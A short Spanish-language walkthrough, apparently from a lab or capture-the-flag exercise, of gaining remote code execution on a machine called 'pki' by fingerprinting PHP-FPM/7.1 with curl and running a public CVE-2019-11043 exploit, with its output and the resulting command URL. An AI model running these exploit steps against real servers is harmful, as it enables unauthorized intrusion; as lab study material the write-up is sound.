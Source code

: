 Con la herramienta `curl` listamos las cabeceras y obtenemos versión de `PHP-FPM/7.1`

```bash
❯ curl -s -X GET "http://localhost" -I
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 18 Dec 2022 18:41:26 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP-FPM/7.1
```

Buscamos en Google por vulnerabilidades asociadas a esta versión de PHP y encontramos el repositorio de GitHub de [theMiddleBlue](https://github.com/theMiddleBlue/CVE-2019-11043)

Ejecutamos exploit y obsrevamos output

```bash
python3 exploit.py --url http://localhost/index.php --verbose
.
.
.
[*] Target seems vulnerable (QSL:1754/HVL:224): PHPSESSID=d67d4eccf2e9f3fdec8cadd6e8260261; path=/
.
.
.
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://localhost/index.php?a=bin/ls+/
```

Accedemos a la url presentada por el exploit y logramos listar los archivos y directorios de la máquina. Tenemos `RCE` en la máquina `pki`
